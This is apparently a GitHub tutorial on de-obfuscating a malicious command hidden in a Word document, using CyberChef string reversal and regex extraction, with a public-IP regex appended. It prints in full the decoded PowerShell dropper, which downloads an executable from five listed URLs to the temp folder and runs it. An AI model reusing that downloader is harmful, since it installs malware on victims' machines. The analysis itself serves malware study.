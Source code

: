 ![logo](https://raw.githubusercontent.com/adam-p/markdown-here/master/src/common/images/icon48.png)
#### In this Tutrail i will show you how to  de-obfuscate A milieous VBS Embedded in Doc File

Start : https://www.hybrid-analysis.com/sample/9a43186e72bde764614b092b55d4dfba00f528c5f0d45e6ccb56dcee8763a845?environmentId=100 

![1](https://user-images.githubusercontent.com/29158503/60865490-d0fdcc80-a22e-11e9-8114-827ce5233897.png)



#### After Downloading the sample let go to Cyberchef to analyze the Malicious cmd.exe command present on Hyperd analysis


![2](https://user-images.githubusercontent.com/29158503/60865489-d0fdcc80-a22e-11e9-8a97-e358694714ee.png)
                                               


#### Now we need to  de-obfuscate the command using cyberchef as follow : 
+ Using replace| find Function to clean the code from (^) 

+ We notice there are SET for a verivble called (9ojB) we select that veribale and see we can find ! 

+ By the end of line we found "For /l  %3  IN  (+1640 ,  -3 ,+2 )", that mean the attcker telling the script to start from index 1640 (Whic is the last characker in the code )  and skkiping  two ckarakter all the way up.

+ To make this readbale lets revrese the code (Despaiye the fact it start from down top up) by using revrese function in Cybershef 

+ Now we need to select first Character and skipping two Characters by using regulare experation "(.).." and also select "List Capture Gruops" 

+ Great, All you need to do now is adding Synatx highliter to make the output more clear screen shot below 

![3](https://user-images.githubusercontent.com/29158503/60870145-f2fc4c80-a238-11e9-9774-79f7cace6eff.PNG)
                                                



```javascript
powershell $BYi='rfd';$iQF='http://mahimamedia.com/YxdW87t@http://mandujano.net/NWJ6@http://www.creativeagency.biz/Sa0BVm@http://www.brgsabz.com/sq@http://biogas-bulgaria.efarmbg.com/fiDaiHg'.Split('@');$RdW=([System.IO.Path]::GetTempPath()+'\zUw.exe');$uIY =New-Object -com 'msxml2.xmlhttp';$svp = New-Object -com 'adodb.stream';foreach($PXv in $iQF){try{$uIY.open('GET',$PXv,0);$uIY.send();If ($uIY.Status -eq 200) {$svp.open();$svp.type = 1;$svp.write($uIY.responseBody);$svp.savetofile($RdW);Start-Process $RdW;break}}catch{}}      
```




| Reg           |                                                                        Defination    |
| ------------- |                                                                       :-------------:| 
| ^The          |                                             matches any string that starts with The  |
| end$          |                                                 matches a string that ends with end  | 
| (.)..         |              Start with first alphabet in list and skip two alphabet so on so fourth |  





# Note(Regx)!!!

1. Public Ip 
+ ^([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))(?<!127)(?<!^10)(?<!^0)\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!192\.168)(?<!172\.(16|17|18|19|20|21|22|23|24|25|26|27|28|29|30|31))\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])(?<!\.255$)$




| Reg           |                                                                        Defination    |
| ------------- |                                                                       :-------------:| 
| ^The          |                                             matches any string that starts with The  |
| end$          |                                                 matches a string that ends with end  | 
| (.)..         |              Start with first alphabet in list and skip two alphabet so on so fourth |  
